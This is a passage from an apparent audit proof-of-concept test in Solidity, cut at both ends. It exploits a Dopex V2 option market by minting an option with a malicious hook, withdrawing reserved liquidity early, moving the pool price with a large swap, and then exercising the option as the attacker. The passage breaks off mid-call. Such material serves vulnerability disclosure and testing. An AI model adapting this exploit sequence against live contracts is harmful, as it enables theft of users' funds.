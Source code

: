 ```solidity
                5e18 - 1
            );
            DopexV2OptionMarketV2.OptionTicks[]
                memory opTicks = new DopexV2OptionMarketV2.OptionTicks[](1);
            opTicks[0] = DopexV2OptionMarketV2.OptionTicks({
                _handler: uniV3Handler,
                pool: pool,
                hook: address(maliciousHook), //malicious hook
                tickLower: tickLowerCalls,
                tickUpper: tickUpperCalls,
                liquidityToUse: l
            });

            //mint some tokens to the attacker to pay the option fee
            vm.startPrank(attacker);
            token1.mint(attacker, 100 ether);
            token1.approve(address(optionMarket), 100 ether);

            //mint our option
            optionMarket.mintOption(
                DopexV2OptionMarketV2.OptionParams({
                    optionTicks: opTicks,
                    tickLower: tickLowerCalls,
                    tickUpper: tickUpperCalls,
                    ttl: 12 hours,
                    isCall: true,
                    maxCostAllowance: 100 ether
                })
            );
            vm.stopPrank();
        }

        //we wait 6 hours and can withdraw our liquidity
        skip(6 hours);
        maliciousHook.withdrawReserved();

        //price moves
        uniswapV3TestLib.performSwap(
            UniswapV3TestLib.SwapParamsStruct({
                user: garbage,
                pool: pool,
                amountIn: 400000e18, // pushes to 2078
                zeroForOne: true,
                requireMint: true
            })
        );

        //attacker exercise the option
        ISwapper[] memory swappers = new ISwapper[](1);
        swappers[0] = srs;

        bytes[] memory swapData = new bytes[](1);
        swapData[0] = abi.encode(pool.fee(), 0);

        (,,,,,uint256 liquidityToUse) = optionMarket.opTickMap(1, 0);

        uint256[] memory liquidityToExercise = new uint256[](1);
        liquidityToExercise[0] = liquidityToUse;

        uint256 balanceBeforeExercise = token0.balanceOf(attacker);

        vm.startPrank(attacker);
        optionMarket.exerciseOption(
```